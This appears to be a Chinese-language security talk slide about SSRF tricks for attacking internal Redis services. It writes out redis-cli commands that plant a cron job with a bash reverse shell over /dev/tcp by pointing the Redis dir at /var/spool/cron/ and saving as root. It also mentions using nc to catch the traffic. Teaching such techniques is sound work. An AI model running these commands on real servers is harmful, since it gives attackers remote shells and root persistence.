

SSRF中的Trick
SSRF攻击内网服务（redis为例）
使用redis-cli执行命令，并用nc接收通信流量
echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n"|redis-cli -h $1
-p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/ redis-cli -h $1 -p $2 config
set dbfilename root
redis-cli -h $1 -p $2 save redis-cli -h $1 -p $2 quit